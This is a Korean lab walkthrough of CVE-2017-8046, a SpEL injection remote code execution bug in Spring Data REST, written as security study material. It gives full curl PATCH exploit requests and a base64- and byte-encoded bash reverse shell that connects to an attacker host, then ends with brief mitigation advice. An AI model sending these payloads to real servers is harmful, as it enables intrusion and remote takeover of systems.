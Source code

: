# CVE-2017-8046

### 요약

- Spring Data REST는 Spring Data 위에 구축되어 개발자가 REST 스타일의 웹 서비스를 더 쉽게 개발할 수 있도록 도와주는 프레임워크
- REST API의 Patch 메소드에서 path의 값이 `setValue`로 전달되어 SpEL 표현식이 실행되면서 원격 명령 실행 취약점이 발생

### 환경 구성 및 실행

- `docker compose up -d`를 실행하여 테스트 환경을 실행
- `http://your-ip:8080/`에 접속하여 json 형식의 반환값 확인 → Restful 스타일의 API 서버임을 확인
- `http://your-ip:8080/customers/1`에 접속하여 리소스 확인
- `apt install curl`커맨드로 curl 설치
- `curl -X PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]' http://your-ip:8080/customers/1`을 입력하여 SpEL 주입(touch /tmp/success)
    
    ![](./1.png)
    
    ![](./2.png)
    
- 리버스 쉘 명령어 구성 → base64로 인코딩 → ASCII 코드로 변환 → 익스플로잇 페이로드 구성
    - bash -i >& /dev/tcp/attacker-IP/8888 0>&1 → bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjQuMjAzLjUvODg4OCAwPiYx}|{base64,-d}|{bash,-i}
    - 해당 문서에서 attacker-IP는 172.24.203.5를 사용
    - 98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,78,122,73,117,77,106,81,117,77,106,65,122,76,106,85,118,79,68,103,52,79,67,65,119,80,105,89,120,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
    - 최종 페이로드
        - [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,78,122,73,117,77,106,81,117,77,106,65,122,76,106,85,118,79,68,103,52,79,67,65,119,80,105,89,120,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]
- `curl -X PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,78,122,73,117,77,106,81,117,77,106,65,122,76,106,85,118,79,68,103,52,79,67,65,119,80,105,89,120,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname", "value": "vulhub" }]' http://your-ip:8080/customers/1`을 입력하여 익스플로잇 전송
    
    ![](./3.png)
    
    ![](./4.png)
    

### 정리

- Spring Data REST의 Patch 메소드 취약점으로 인해 공격자가 SpEL을 삽입하여 임의의 명령을 실행할 수 있다. 신뢰할 수 없는 사용자 입력값을 적절히 검증하고, 최신 버전으로 패치하여 이 취약점을 해결해야 한다. 또한 불필요한 기능은 비활성화하는 것이 좋다.